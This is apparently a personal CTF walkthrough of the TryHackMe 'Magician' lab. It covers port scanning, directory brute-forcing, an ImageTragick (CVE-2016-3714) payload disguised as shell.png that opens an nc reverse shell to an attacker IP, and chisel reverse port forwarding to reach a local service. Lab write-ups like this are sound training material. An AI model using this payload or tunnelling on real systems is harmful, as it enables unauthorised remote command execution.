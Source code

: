 ```yaml
---

title: Walkthrough - Magician
published: true
---
```


Tags: CVE-2016-3714, chisel, port forward, tunnel
Description: Boot2root machine for FIT and bsides guatemala CTF.
Difficulty: Easy
URL: [https://tryhackme.com/room/glitch](https://tryhackme.com/room/glitch)

* * *

## Notes

- `sudo nmap -Pn -sS -T4 -p- magician -vvv`

```
PORT     STATE SERVICE         REASON
21/tcp   open  ftp             syn-ack ttl 61
8080/tcp open  http-proxy      syn-ack ttl 61
8081/tcp open  blackice-icecap syn-ack ttl 61
```

Visiting the website we have a `Whitelabel Error Page`

![0xskar](/assets/magician01.png)

- `gobuster dir -u http://magician:8080 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 100` yeilds us a few results

```
/files                (Status: 200) [Size: 2]
/upload               (Status: 405) [Size: 0]
/error                (Status: 500) [Size: 105]
```

Port 8081 is where we find the magician site.

- create a shell.png with the following

```
push graphic-context
encoding "UTF-8"
viewbox 0 0 1 1 
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|mkfifo /tmp/ian; nc 10.2.127.225 6666 0</tmp/ian | /bin/sh >/tmp/ian 2>&1; rm /tmp/ian '
pop graphic.context
pop graphic.context
```

- setup pwncat listener and upload shell to recieve listener

* * * 

## user.txt?

![0xskar](/assets/magician02.png)

* * * 

## root.txt?

```
(remote) magician@magician:/home/magician$ cat the_magic_continues 
The magician is known to keep a locally listening cat up his sleeve, it is said to be an oracle who will tell you secrets if you are good enough to understand its meows.
```

- `netstat -l` we can see a connection on port 6666
- upload `chisel` via http or pwncat
- now to portforward on attacker machine `chisel server --reverse --port 9001`
- and on target machine `./chisel client 10.2.127.225:9001 R:9002:127.0.0.1:6666`
- we can now access the magic cat on `http://localhost:9002/` and cat root.txt
- decode it!

* * * 

